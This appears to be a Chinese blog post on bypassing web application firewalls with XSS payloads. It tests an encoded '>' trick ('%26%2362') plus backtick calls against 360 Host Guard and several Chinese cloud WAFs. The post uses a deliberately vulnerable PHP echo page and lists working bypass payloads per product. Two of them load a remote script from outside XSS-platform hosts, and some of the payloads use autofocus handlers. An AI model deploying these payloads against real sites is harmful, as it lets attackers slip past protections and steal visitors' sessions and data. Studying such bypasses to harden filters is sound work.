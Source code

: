 ### 前言
- - -
360主机卫士是360旗下的服务器安全软件，为站长免费提供网站后门检测、木马查杀，网站补丁、漏洞防护等服务...

![1](https://ae01.alicdn.com/kf/Uad2732ca0c4943088ca09f550ff5caccL.png)

(虽然软件几年前就停止更新，官网挂了，但是从当时的评论上看软件还是很不错的。)

### 环境
- - -
火狐

360主机卫士Apache版

phpStudy2016(PHP-5.4.45+Apache)

测试代码
```
<?php   
  $input = @$_REQUEST["xss"];
  echo "<div>".$input."</div>"
?>
```
### 测试
- - -
习惯性的直接上 Burp 用平时收集的 payload fuzz 一遍，结果不怎么理想，能过的很鸡肋...然后我就去网上找资料，找到了一篇文章[xss加入某些字符即可过大多数waf的思路及一些思考](https://mp.weixin.qq.com/s/CCc12FWWJMRP4V6x0XXaoA)根据里面的思路可以绕过。

`<svg onload>` 拦截

`<svg > onload>`不拦截

具体绕过就是先把 `>` html实体编码

![2](https://ae01.alicdn.com/kf/Ue6dc8da4a8ac4497a96828e039c729574.png)

将 `&#62` URL编码

![3](https://ae01.alicdn.com/kf/U143681d1e9b64df0b67ebab674991c93N.png)

大部分 `xss payload` 加上 `%26%2362` 即可绕过，但是类似 alert(1) 括号可能会被拦截 可以用反引号替换
```
<svg %26%2362 onload=alert`1`>
```
![4](https://ae01.alicdn.com/kf/U3529497cee1f48e7b86ccedd924109a2B.png)

给几个测试绕过的 `payload`
```
<style  %26%2362 onload=alert`1`>
<img %26%2362 src=1  onerror=alert`1`>
<audio %26%2362 src=x  onerror=alert`1`>
<svg %26%2362 onload=appendChild(createElement('script')).src='//xs.ax/HfcB'>
```

该文章在最后说明此方法可以绕过多款waf，接下来我们来测试。

`云锁`：

![5.png](https://ae01.alicdn.com/kf/Ua781c4541fce4d9287ddc4218025ee49L.png)

绕过
```
<svg %26%2362 onload=alert`1`>
```

`奇安信CDN`：

拦截
```
<svg %26%2362 onload=alert`1`>
```
![7.png](https://ae01.alicdn.com/kf/Ua119486efcd94f83881e7135b9aa13daX.png)

绕过方法(使用HTML5新标签)

`<select autofocus onfocus=[2].find(alert)>`

`安全狗`：

绕过
![8.png](https://ae01.alicdn.com/kf/U75a996f4667944d2895372a9eb417a07U.png)

`阿里云`：

拦截
![9.png](https://ae01.alicdn.com/kf/U59c6226bba53437a9ee15b9d3e5f70e1w.png)

绕过方法(这个百度下就有)
```
<img src=# onerror=alert`2`>
<input onfocus="document.body.appendChild(createElement('script')).src='//xss.xx/B6Bb'" autofocus>
```

![10.png](https://ae01.alicdn.com/kf/U3d07d821e85a4a028b8eb360e7c78a04X.png)

`百度云加速`：

绕过
![11.png](https://ae01.alicdn.com/kf/Ufe4b45196d59424c930e54b49efa091aK.png)

### 小结
此次利用 `>` 字符的编码绕过的姿势，再到其他 waf 测试到此结束，至于其他特殊字符是否也有绕过，感兴趣的可以研究下，如有错误之处，请师傅指正。

### 参考
[xss加入某些字符即可过大多数waf的思路及一些思考](https://mp.weixin.qq.com/s/CCc12FWWJMRP4V6x0XXaoA)
